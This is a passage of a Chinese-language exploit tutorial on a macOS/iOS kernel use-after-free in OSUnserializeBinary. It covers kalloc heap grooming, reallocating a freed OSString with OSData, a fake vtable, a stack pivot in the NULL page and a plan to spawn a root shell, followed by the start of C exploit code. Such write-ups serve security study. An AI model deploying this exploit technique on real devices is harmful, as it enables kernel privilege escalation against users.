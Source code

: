 ```shell
kalloc.256                   256       8004K       8867K      32016       35469       30851     4K     16
kalloc.288                   288        740K        768K       2631        2733        2179    20K     71   
kalloc.512                   512       1900K       2627K       3800        5254        3266     4K      8
kalloc.1024                 1024       3048K       3941K       3048        3941        2588     4K      4   
kalloc.1280                 1280        400K        512K        320         410         201    20K     16   
kalloc.2048                 2048       1872K       2627K        936        1313         909     4K      2   
kalloc.4096                 4096       6532K       8867K       1633        2216         515     4K      1   
kalloc.8192                 8192       3160K       3503K        395         437         269     8K      1   
```



这些区域只持有指定大小的分配。被释放的元素保存在一个链表中，其中最近被释放的元素附在结尾处。这是非常重要的，因为这意味着最近被释放的元素区域首先被重新分配。换句话说，如果一个元素被释放了，并且我们足够快，那么我们就可以设法重新分配它。

如何管理重新分配被称作分配 allocation primitive。它基本上是一种可靠第分配所需数量的内核内存的方法。我们将要使用的 allocation primitive 是在字典中 OSString 之后简单地创建一个对象。正如我们已经知道的，OSUnserializeBinary 会为反序列化对象分配内存，这是非常好的。我们还需要的是要准备地知道我们需要分配多少内存以及我们需要向其中写入什么数据。

在我们这个特例中，被释放的元素是 OSString，大小为32字节。也就是说每一个 OSString 都将会被访苏 kalloc.32 区域。因此，为了重新分配已被释放的 OSStirng，我们需要会被分配在同一区域的数据。 OSData 就是一个完美的候选者，因为我们可以通过字典来控制它的缓冲区数据，声明32字节，然后得到重分配。 OSString 将会在我们创建 kOSSerializeObject 引用指向它时被再次使用（还记得 retain 函数吗？）。

好了，现在来总结一下我们已经知道的：我们知道一旦字典被反序列化，则 OSString 的 key 值将会被释放，基于此，我们可以在这之后立即序列化大小为32字节的 OSData，来占据内存。在OSData之后，我们将会序列化一个指向 OSString的引用，这个引用将会在反序列化的时候调用 retain 函数，这样就会触发漏洞，NICE\! 最后一件事就是要知道在 OSData 的缓冲区里填充些什么数据。

为此，想想 retain 函数。如果你了解 C++ 的调用约定的话，你可能会知道 OSString 是 OSObject 的子类，所以 retain 实际上是在 OSObject 里实现的，控制流将会通过 vtable（虚表），来调用恰当的父类实现（因为 OSString 并没有实现 retain ）。也就是说，我们需要制造一个假的 vtable，来控制执行流程。内核将会认为我们的假 vtable 是完全有效的，而这个假的 vtable 将会包含一个指针指向我们的 stack pivot（栈翻转），而不是父类的 retain。

假的虚表指针将会位于 OSData 缓冲区的开始处，因为在有效的 C++ 对象中，虚表指针通常都是位于对象的开始处。我们将会把我们的虚表以及 stack pivot 放在 NULL 页面中，因为 OSData 中的 NULL 地址更容易被控制。其他地址可能会被某些针对他们的操作更改，而 NULL 不会改变。也就是说，我们要将 OSData 的数据全部填充为0。

跟 info-leak 一样，在浏览代码之前，让我们来看一下 UAF 利用程序的计划：

* 制作一个触发 UAF 的二进制字典，用被0填充的 OSData 重新分配被释放的 OSString 区域。
* 制作 NULL page。
* 在 NULL page 的0x20偏移处放置 stack pivot （这将使得执行程序跳转到转移链）。
* 在 NULL page 的0x0偏移处放置一个小的转移链（这将会使执行程序跳转到主链）。
* 触发漏洞。
* 用现在已经提升的权限，产生一个 shell。

以下是代码：

```c
void use_after_free(void)
{
    kern_return_t kr = 0;
    mach_port_t res = MACH_PORT_NULL, master = MACH_PORT_NULL;
    /* craft the dictionary */
    printf("(i) Crafting dictionary...\n");
    void *dict = calloc(1, 512);
    uint32_t idx = 0; // index into our data
#define WRITE_IN(dict, data) do { *(uint32_t *)(dict + idx) = (data); idx += 4; } while (0)
    WRITE_IN(dict, (0x000000d3)); // signature, always at the beginning
    WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeDictionary | 6)); // dict with 6 entries
    WRITE_IN(dict, (kOSSerializeString | 4));   // string 'AAA', will get freed
    WRITE_IN(dict, (0x00414141));
    WRITE_IN(dict, (kOSSerializeBoolean | 1));  // bool, true
```